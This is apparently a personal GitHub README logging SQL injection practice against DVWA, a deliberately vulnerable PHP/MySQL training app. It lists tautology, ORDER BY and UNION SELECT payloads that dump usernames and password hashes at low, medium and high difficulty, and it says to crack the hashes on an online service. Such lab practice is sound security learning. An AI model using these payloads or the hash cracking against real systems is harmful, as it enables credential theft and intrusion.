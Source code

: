 # DVWA-Practice
Damn Vulnerable Web Application (DVWA) is a PHP/MySQL web application that is damn vulnerable.The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface. This repo. contains documentation of the Exploits during my practice session.

Directory: localhost/DVWA-master/vulnerabilities/sqli/

# SQLi - Difficulty:Low
User Id -->


'or 1=1# 


'or'1'='1


' ORDER BY 3#


' ORDER BY 2# 


' UNION SELECT user, password FROM users#       (# for commenting the rest of the statements after the query.)


# SQLi - Difficulty:Medium
inspect--> User Id


option value="1 or 1=1 UNION SELECT user, password FROM users#">' UNION SELECT username, password FROM users--1</option

NB: However due to the SQL query not having **quotes** around the parameter, this will not fully protect the query from being altered.
    (View Help & Source Code)
    
    
# SQLi - Difficulty:High
1' or 1=1 UNION SELECT user, password FROM users#

# SQLi - Cracking the Hashes
Set Setting: Low & collect the hashes.


' UNION SELECT user, password FROM users#


Paste it into crackstation.net to get the passwords.

# Additional Help: https://portswigger.net/web-security/sql-injection/union-attacks


